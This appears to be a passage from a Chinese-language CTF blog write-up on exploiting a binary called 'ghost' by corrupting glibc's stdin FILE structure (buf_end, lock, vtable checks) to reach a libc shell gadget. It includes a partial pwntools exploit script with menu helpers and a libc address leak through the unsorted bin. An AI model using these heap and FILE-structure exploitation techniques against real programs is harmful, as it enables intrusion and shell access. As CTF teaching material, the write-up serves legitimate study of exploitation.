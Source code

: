 那么可以参考一下我在博客中[unflow的分析，可以知道它会调用**_IO_new_file_underflow**，并调用**_IO_file_read**，最终调用**__read (fp-&gt;_fileno, buf, size))**来将数据先读入缓冲区，这时**fp_fileno**指向**stdin**,**buf**指向**buf_base**，而**size=buf_end-buf_base**。 可以看下**angelboy**给的原理图：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.mutepig.club/usr/uploads/2017/11/4172207018.png)

除了修改**buf_end**之外，还需要不让函数报错，一个是**_IO_vfscanf_internal**中的

```
3021	  UNLOCK_STREAM (s);
```

需要让**lock**合法，另一个就是要通过**vtable**的校验。 最终跳转的地址是**libc**中一段可以**getshell**的位置，大致是调用了**execve("/bin/sh",argv,env)**。 最终exp如下，如果要改**libc**的话需要注意的是求**libc**地址的偏移，以及各个**stdin**属性的偏移：

```
#!/usr/bin/env python
# encoding: utf-8

p = process("./ghost")
libc = ELF("./libc.so.6")

def newheap(data):
    p.recvuntil("Your choice: ")
    p.sendline("1")
    p.recvuntil("Data :")
    p.sendline(str(data))

def delheap(index):
    p.recvuntil("Your choice: ")
    p.sendline("2")
    p.recvuntil("Index :")
    p.sendline(str(index))

def addghost(magic, desc):
    p.recvuntil("Your choice: ")
    p.sendline("3")
    p.recvuntil("Magic :")
    p.sendline(str(magic))
    p.recvuntil("Description :")
    p.send(desc)

def seeghost(magic):
    p.recvuntil("Your choice: ")
    p.sendline("4")
    p.recvuntil("Magic :")
    p.sendline(str(magic))

def delghost():
    p.recvuntil("Your choice: ")
    p.sendline("5")

def leak_libc():
    newheap("0")
    newheap("1")
    delheap(0)
    addghost(1,'1'*8)
    seeghost(1)
    ret = p.recvuntil('$')
    addr = ret.split('11111111')[1][:-1].ljust(8,'x00')
    unsorted_addr = u64(addr)-0xa0
    libc_addr = (unsorted_addr &amp; 0xfffffffff000)-0x3c1000
    delghost()
    delheap(1)
```